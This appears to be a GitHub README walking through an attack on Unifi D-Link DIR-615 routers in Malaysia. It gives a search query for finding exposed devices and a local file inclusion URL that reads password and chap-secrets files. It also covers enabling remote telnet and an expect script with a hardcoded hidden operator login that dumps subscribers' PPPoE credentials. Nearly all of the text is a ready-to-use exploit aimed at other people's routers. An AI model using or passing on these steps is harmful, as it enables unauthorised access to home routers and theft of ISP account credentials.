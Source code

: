 # UniFI-Dlink-DIR-615

Search for the Unifi Dlink DIR-615 router's Server details = Mathopd/1.5p6 country:MY
The country filter is only for registered user so make sure you have been registered

![alt text](http://i.imgur.com/jtOlRoc.png "Image 1")

Choose any router you want

To get the user's creds, enter the following appendage = model/__show_info.php?REQUIRE_FILE=/var/etc/httpasswd

![alt text](http://i.imgur.com/mNPyVWR.png "Image 2")

and poof !

![alt text](http://i.imgur.com/1ohSIfy.png "Image 3")

As you can see, TM's operator add another hidden account under different name from the previous version
The good news is every D-Link router with copyright 2011 and above is using the same username and password as above while the D-Link router with the copyright 2010 and below is using username operator with different password.
So you guys need to enumerate the creds for every each routers or you can just include the chap-secrets file in the url instead of getting the httpassword first (/etc/ppp/chap-secrets).

# Getting PPPoE username and password

![alt text](http://i.imgur.com/KngStCQ.png "Image 4")

Go to the Maintenance tab and enable the Remote Telnet from WAN, then save the settings
No reboot required

Open up a terminal and just telnet to the IP

```
telnet <ip> <port>
cat /etc/ppp/chap-secrets
```

And tadaa ! there you go the username and password

To automate the telnet part, use this simple script

```
#!/usr/bin/expect
set timeout 20
set ip [lindex $argv 0]
spawn telnet $ip 23
expect "login: "
send "Management\n"
expect "Password: "
send "TestingR2\n"
expect "# "
send "cat /etc/ppp/chap-secrets\n"
send "exit\n"
interact
```

Usage: ./unifi-pppoe-creds <ip>

Credits goes to: [link 1](http://seclists.org/bugtraq/2013/Dec/11) and [link 2](https://www.keithrozario.com/2013/12/unifi-d-link-routers-hacked.html)
